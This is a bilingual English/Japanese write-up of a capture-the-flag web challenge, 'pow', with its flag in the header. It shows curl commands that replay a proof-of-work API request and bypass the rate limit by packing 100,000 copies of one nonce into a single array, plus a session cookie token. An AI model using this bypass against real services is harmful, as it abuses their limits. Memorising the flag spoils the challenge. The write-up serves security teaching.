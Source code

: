```yaml
---
title: pow
level: 2
flag: FLAG{N0nCE_reusE_i$_FUn}
writer: southball
---
```


# pow

## 問題文 / Statement

compute hash to get your flag

ハッシュを計算してフラグを取ろう

https://web-pow-lz56g6.wanictf.org/

---

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

`web-pow-ywu5dn.wanictf.org`

---

## 解法 / Writeup

If we open the page for a while and take a look at the network tab, we will see a network request:  
しばらくページを開いて、ネットワークタブを見てみると、ネットワークリクエストが表示されます：

![network_pow_1.png](./resources_writeup/network_pow_1.png)
![network_pow_2.png](./resources_writeup/network_pow_2.png)
![network_pow_3.png](./resources_writeup/network_pow_3.png)

There is a convenient feature in Chrome to replay a request. We can use the "Copy as cURL (bash)" option by right clicking the request.  
Chromeにはリクエストを再び実行する便利な機能があります。リクエストを右クリックして「cURLとしてコピー（bash）」オプションが使えます。

![network_copy_to_curl_bash.png](./resources_writeup/network_copy_to_curl_bash.png)

```
❯ curl 'https://web-pow-lz56g6.wanictf.org/api/pow' \
  -H 'accept: */*' \
  -H 'accept-language: en,ja;q=0.9,en-US;q=0.8' \
  -H 'cache-control: no-cache' \
  -H 'content-type: application/json' \
  -H 'cookie: pow_session=<REDACTED>' \
  -H 'origin: https://web-pow-lz56g6.wanictf.org' \
  -H 'pragma: no-cache' \
  -H 'priority: u=1, i' \
  -H 'referer: https://web-pow-lz56g6.wanictf.org/' \
  -H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  --data-raw '["2862152"]'
progress: 2 / 1000000
```

So we know that by sending this request many times we can solve the problem. But soon, we will see the `rate limit exceeded` message. So we need to send the requests in a smarter way.  
このリクエストを何度か送ることで問題を解くことがわかったが、たくさん送ってみると `rate limit exceeded` が出てきます。なので、もっと賢い方法で送る必要がある。

We notice that the data sent is an array. Maybe we can send more than one message...? When we try to send `["2862152","2862152"]`, we will see the progress increase by 2. So we try to send more.  
送信したデータは配列なので、もしかすると二個以上の値が送れる...？`["2862152","2862152"]` を送ってみると progress が 2 増えるので、もっと多く送ってみます。

```sh
$ ...

$ node -e "console.log(JSON.stringify(new Array(100000).fill('2862152')))" | curl 'https://web-pow-lz56g6.wanictf.org/api/pow' \
  -H 'accept: */*' \
  -H 'accept-language: en,ja;q=0.9,en-US;q=0.8' \
  -H 'cache-control: no-cache' \
  -H 'content-type: application/json' \
  -H 'cookie: pow_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiIzYTFiM2VjNC1iMjA0LTRiNTQtYTAwNC1mNzA4YzZkZDRiZmUifQ.WaQV8WI-amfxGJKexTYF3QJhGZYewTt4uEeQ-Wak5sU' \
  -H 'origin: https://web-pow-lz56g6.wanictf.org' \
  -H 'pragma: no-cache' \
  -H 'priority: u=1, i' \
  -H 'referer: https://web-pow-lz56g6.wanictf.org/' \
  -H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  --data @-
FLAG{N0nCE_reusE_i$_FUn}
```

and we have solved the problem.  
それで、問題は解けました。